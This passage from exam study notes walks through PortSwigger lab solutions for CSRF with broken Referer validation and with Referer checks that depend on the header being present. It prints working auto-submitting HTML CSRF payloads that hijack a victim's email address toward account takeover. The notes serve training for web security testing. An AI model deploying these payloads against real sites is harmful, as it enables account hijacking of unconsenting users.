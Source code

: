 [PortSwigger Lab: Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)

#### Referer Validation CSRF

> _**Identify**_ the change email function is vulnerable to CSRF by observing when the **Referer** header value is changed the response give message, `Invalid referer header`, and the email change is accepted when the referrer value contains the expected target domain somewhere in the value.

> Adding original domain of target and append `history.pushState('', '', '/?TARGET.net');` to the **Referer header** in the form of a query string, allow the change email to update.

```html
Referrer-Policy: unsafe-url
```

> **Note:** Unlike the normal Referer header spelling, the word **"referrer"** must be spelled correctly in the above `head` section of the exploit server.

> Create a CSRF proof of concept exploit and host it on the exploit server. Edit the JavaScript so that the third argument of the **history.pushState()** function includes a query string with target URL.

```html
<html>
  <!-- CSRF PoC -  CSRF with broken Referer validation -->
  <body>
	<script>
		history.pushState('', '', '/?TARGET.net');
	</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> When above exploit payload is delivered to victim, the CSRF POC payload changes the victim email to **hacker@exploit.net**, because the Referer header contained target in value. In _**BSCP**_ exam take not of your `hacker@exploit` server email address to use in account takeover.

[PortSwigger Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)

#### Referer Header Present

> In the update email request when changing the `referer` header the response indicate `Invalid referer header`, _**identifying**_ CSRF vulnerability. Using the `<meta name="referrer" content="no-referrer">` as part of the exploit server CSRF PoC this control can be bypassed. This instruct the exploit server to Deliver Exploit to victim without `referer` header.

```html
<html>
  <!-- CSRF PoC - CSRF where Referer validation depends on header being present -->
  <body>
<meta name="referrer" content="no-referrer">
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="administrator&#64;EXPLOIT&#46;NET" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
```